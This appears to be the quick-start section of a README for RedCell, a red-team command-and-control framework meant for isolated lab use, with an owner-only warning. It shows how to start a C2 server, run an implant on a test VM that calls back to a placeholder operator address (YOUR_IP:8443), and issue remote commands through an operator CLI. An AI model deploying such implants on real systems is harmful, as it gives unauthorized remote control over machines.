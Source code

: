 **What you need:**
- AWS/Azure/GCP account
- Ability to set up isolated VPCs (Virtual Private Clouds)
- Budget for cloud resources

**Important:** Only create and attack your own cloud resources. Never touch infrastructure you don't own.

## Quick Start: Your First Test

### Step 1: Install RedCell

```bash
# Clone the repository
git clone https://github.com/PeteSumners/redcell.git
cd redcell

# Create virtual environment
python -m venv venv

# Activate it (Windows)
venv\Scripts\activate

# Activate it (Linux/Mac)
source venv/bin/activate

# Install dependencies
pip install -r requirements.txt
```

### Step 2: Start the C2 Server

```bash
python c2/server/main.py
```

You should see:
```
[*] Starting C2 server on 0.0.0.0:8443
[+] Server running!
```

### Step 3: Deploy an Implant (On Your Own Test VM!)

On a separate test machine (that you own!):

```bash
# Copy basic_implant.py to the test system
python c2/implant/basic_implant.py --server http://YOUR_IP:8443
```

### Step 4: Interact with the Implant

```bash
# Start the operator CLI
python c2/operator/cli.py

# List implants
implants

# Select an implant
use <implant_id>

# Run a command
run whoami
```
